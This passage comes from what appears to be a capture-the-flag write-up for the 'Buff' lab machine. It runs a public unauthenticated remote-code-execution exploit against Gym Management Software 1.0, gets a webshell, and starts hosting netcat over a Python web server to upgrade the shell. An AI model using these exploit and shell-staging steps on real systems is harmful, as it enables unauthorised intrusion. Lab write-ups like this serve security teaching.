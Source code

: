 ### Webpage

The website represents somewhat of a fitness page with a login option.

![webpage](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/webpage.png)

Clicking on **Contact** button reveals useful information.           
The website has been built using ``Gym Management Software 1.0``

![contact](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/contact.png)

### Gaining a low-privileged shell

While searching the software on **exploitdb** We find a RCE vulnerability ...

![exploitdb](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/exploitdb.png)

I am going to use the 4th exploit which appears to be an ``Unauthenticated Remote Code Execution`` Vulnerability.

```sh
root@kali:~# searchsploit -m /usr/share/exploitdb/exploits/php/webapps48506.py
  Exploit: Gym Management System 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48506
     Path: /usr/share/exploitdb/exploits/php/webapps/48506.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/48506.py


root@kali:~# python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
�
buff\shaun
```

I have gained an initial shell which is somewhat unstable and not very helpful for lateral movement so I'm going to upload netcat and grab myself a stable shell.

### Upgrading to a stable shell

```sh
root@kali:/usr/share/windows-resources/binaries# python3 -m http.server 80
```

Using python3 **http.server** I can host a copy of netcat.exe which is located on ``/usr/share/windows-binaries/nc.exe`` on any Kali host.

